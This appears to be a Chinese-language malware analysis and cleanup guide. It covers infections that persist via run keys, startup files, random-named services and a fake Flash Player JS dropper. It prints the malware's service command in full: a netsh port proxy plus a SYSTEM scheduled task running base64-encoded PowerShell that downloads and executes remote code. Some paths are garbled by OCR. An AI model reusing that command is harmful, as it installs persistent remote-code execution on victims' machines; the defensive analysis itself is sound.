 HKEY_LOCAL_MACHINESOFTWAREMicrisiftWindowsCurrentVersionRun

**清除方案**

删除病毒文件：

C:\Windows\Temp\sartpg.exe<br>
%appdata%\Microsoftcred.ps1<br>
C:/Windows/随机名.exe<br>
C:/Users/admin/AppData/Roaming/随机名.exe<br>
C:/Users/admin/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/随机名.exe

删除以下计划任务：

随机名<br>
cmd.exe /c C:Windows随机名.exe

删除菜单启动项下的病毒文件：

C:UsersgouchenAppDataRoamingMicrosoftWindowsStart MenuProgramsStartup随机名.exe

删除注册表中的恶意启动项以及操作文件：

HKEY_LOCAL_MACHINESOFTWAREMicrisiftWindowsCurrentVersionRun<br>
C:/Users/admin/AppData/Roaming/随机名.exe

**1.2 版本2-服务持久化**

该版本采用服务进行自身持久化，在漏洞利用成功后，创建随机名称的服务

[![](https://p1.ssl.qhimg.com/t01304c42ce67d5bda8.png)](https://p1.ssl.qhimg.com/t01304c42ce67d5bda8.png)

类似客户这台机器，被多次感染后创建了多个随机的病毒服务，利用服务对自身进行持久化。

[![](https://p1.ssl.qhimg.com/t010757955f510230bd.png)](https://p1.ssl.qhimg.com/t010757955f510230bd.png)

服务的可执行文件路径：

C:\Windows\system32\cmd.exe /C “netsh.exe firewall add portopening tcp 65530 DNS&amp;netsh interface portproxy add v4tov4 listenport=65530 connectaddress=1.1.1.1 connectport=53&amp;schtasks /create /ru system /sc MINUTE /mo 40 /st 07:00:00 /tn “MicrosoftwindowsRass” /tr “powershell -nop -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdgAuAGIAZABkAHAALgBuAGUAdAAvAHcAbQA/AGgAZABwACcAKQA=” /F &amp;schtasks /run /tn “MicrosoftwindowsRass””

**清除方案**

禁用该服务，遍历任务计划(不仅仅在MicrosoftwindowsRass有任务计划)，清除powershell任务计划

**1.3版本3-利用JS脚本执行**

在攻击成功后，病毒在系统启动项释放flashplayer快捷方式，并在%appdata%释放flashplayer.tmp文件

[![](https://p1.ssl.qhimg.com/t0118018781714ec265.png)](https://p1.ssl.qhimg.com/t0118018781714ec265.png)

该文件内容是一个脚本，使用JS 调用PowerShell脚本下载。

[![](https://p3.ssl.qhimg.com/t01b28f38bafba104db.png)](https://p3.ssl.qhimg.com/t01b28f38bafba104db.png)
